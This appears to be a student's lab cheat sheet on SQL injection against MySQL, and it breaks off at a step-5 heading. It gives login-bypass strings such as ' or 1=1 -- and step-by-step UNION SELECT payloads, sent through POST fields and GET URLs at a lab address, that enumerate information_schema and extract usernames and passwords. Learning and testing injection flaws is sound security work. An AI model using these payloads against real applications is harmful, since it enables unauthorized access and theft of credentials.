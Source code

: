 # Commands
We are only using the `select` and `union` methods

# Default Databases
```
information_schema
mysql
performance_schema
```
# Structure
```
Information Schema
--> Tables
  --> Columns
    --> TABLE_SCHEMA
      --> TABLE_NAME
      --> Column_NAME
```
# Enumerating
```
show tables ;
show columns from columns ;
```

```
select table_schema,table_name,column_name from information_schema.columns ;
```

```
select name,cost,color from session.car
```

```
@@VERSION
```
This will print the version number

# Bypass Login
```
' or 1=1 --
```
\+
```
SELECT * FROM users WHERE username = '' AND password = 'foo'
```
Changes to
```
SELECT * FROM users WHERE username = '' OR 1=1-- ' AND password = 'foo'
```

Querying all usernames and passwords
```
10.50.36.14/login.php?username=tom' OR 1='1 & passwd=tom' OR 1='1
```
# Hijacking Search SQL (POST METHOD)

## 1. Identify vulnerable field

Test with:
```
Name' or 1='1
```

## 2. Attempt to view more
```
Audi ' UNION SELECT 1,2,3,4 #
```
If this doesn't work try adding more columns, I.E: `1,2,3,4,5 #` (IT MIGHT BE AS HIGH AS 15)

NOTE: this is the number of columns you must use for every query

## 3. Edit Golden Statement
Golden Statement:
```
UNION SELECT table_schema,table_name,column_name from information_schema.columns #
```
Lets say there are only 5 columns with column 2 unavailable available:

Put unavailable and known columns in the right place (put `2` in the second position and put `5` in the fifth position)
```
UNION SELECT table_schema,2,table_name,column_name,5 from information_schema.columns #
```
Add to our previous UNION statement from step 2
```
Audi ' UNION SELECT table_schema,2,table_name,column_name,5 from information_schema.columns #
```
## 4. Find Tables of Interest
For example
| Manufacturer | Cost | Color | Year
| - | - | - | - |
| --- | --- | --- | --- |
|session |userinfo 	 |studentID 	|5|
|session |	userinfo |	 username| 	  5|
|session 	|userinfo 	|  passwd 	|    5|
|session 	|userinfo 	|  jump 	  |    5|
|session 	|userinfo 	|  prid 	 |     5|

or

```
Database  Table      Columns
------------------------------
session
          userinfo
                     studentID
                     username
                     passwd
                     jump
                     prid
```

Shows a database `session` with a table `userinfo` and columns with `studentID`, `username`, `passwd`, `jump`, `prid`

## 5. Create New Queries
Requirements:
- Must match the number of columns of the golden rule (in our example 5 columns)
- Any unavailable columns must be used (in our example column 2)

```
UNION SELECT type,2,cost,color,year from session.car #
```

```
UNION SELECT studentID,2,username,passwd,jump from session.userinfo #
```
# Hijacking Search SQL (GET METHOD)
## 1. Identify Vulnerable Field
When using the sql get method, you may notice the sql query in the url:
```
http://10.50.36.14/uniondemo.php?Selection=4&Submit=Submit
```
The `?Selection=4` is the query

Test this by replacing the standard query with

```
Selection=4 or 1=1
```
This would look like:
```
http://10.50.36.14/uniondemo.php?Selection=4 or 1=1&Submit=Submit
```
## 2. Attempt to view more
Get the column count with:
```
Selection=2 UNION SELECT 1,2,3
```
This would look like:
```
http://10.50.36.14/uniondemo.php?Selection=2 UNION SELECT 1,2,3&Submit=Submit
```

If more columns are needed (it errors out) add them as so: `1,2,3,4,5`
## 3. Edit Golden Statement
Golden Statement:
```
UNION SELECT table_schema,table_name,column_name from information_schema.columns
```
For our example we have only 3 columns available, because of this no modifications are neccessary

Add to our previous UNION statement from step 2
```
Selection=2 UNION SELECT table_schema,table_name,column_name from information_schema.columns
```

This would look like:
```
http://10.50.36.14/uniondemo.php?Selection=2 UNION SELECT table_schema,table_name,column_name from information_schema.columns&Submit=Submit
```
## 4. Find Tables of Interest
From our example:
| Manufacturer | Cost | Tire Size |
| - | - | - |
| --- | --- | --- |
|session 	|studentID 	|userinfo|
|session 	|username |	userinfo|
|session 	|passwd |	userinfo|
|session 	|jump |	userinfo|
|session 	|prid 	|userinfo|

or

```
Database   Table      Column
--------------------------------
session
           userinfo   
                      studentID
                      username
                      passwd
                      jump
                      prid
```

Shows a database `session` with a table `userinfo` and columns with `studentID`, `username`, `passwd`, `jump`, `prid`

## 5
